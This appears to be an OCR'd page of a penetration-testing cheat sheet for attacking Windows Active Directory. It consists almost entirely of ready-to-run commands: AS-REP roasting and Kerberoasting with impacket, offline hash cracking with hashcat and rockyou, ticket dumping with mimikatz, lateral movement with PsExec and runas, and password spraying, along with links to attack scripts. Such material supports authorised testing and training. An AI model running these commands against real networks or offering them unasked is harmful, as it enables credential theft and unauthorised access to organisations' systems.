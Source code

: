    GetNPUsers.py - Query ASReproastable accounts from the KDC
```sh
impacket-GetNPUsers domain.local/ -dc-ip <IP> -usersfile userlist.txt
```

### Kerberoast
  impacket-GetUserSPNs
```
impacket-GetUserSPNs <domain>/<user>:<password>// -dc-ip <IP> -request
```
or  
```
impacket-GetUserSPNs -request -dc-ip <IP> -hashes <hash_machine_account>:<hash_machine_account> <domain>/<machine_name$> -outputfile hashes.kerberoast
```
```
hashcat -a 0 -m 13100 <hash> /usr/share/wordlists/rockyou.txt 
```
```
.\PsExec.exe -u <domain>\<user> -p <password> cmd.exe
```
or  
```
runas /user:<hostname>\<user> cmd.exe
```



## Service Account Attacks
  Some user tickets that are stored in memory
  Display all cached Kerberos tickets for the current user
```
./mimikatz.exe "sekurlsa::tickets"
```
 Export service tickets from memory
```
./mimikatz.exe "kerberos::list /export"
```
Wordlist Attack with tgsrepcrack.py to get the clear text password for the service account
```
# sudo apt update && sudo apt install kerberoast
# Note: Install 
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt <ticket.kirbi>
```
or  
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

## Password Spraying
```
.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
```
https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
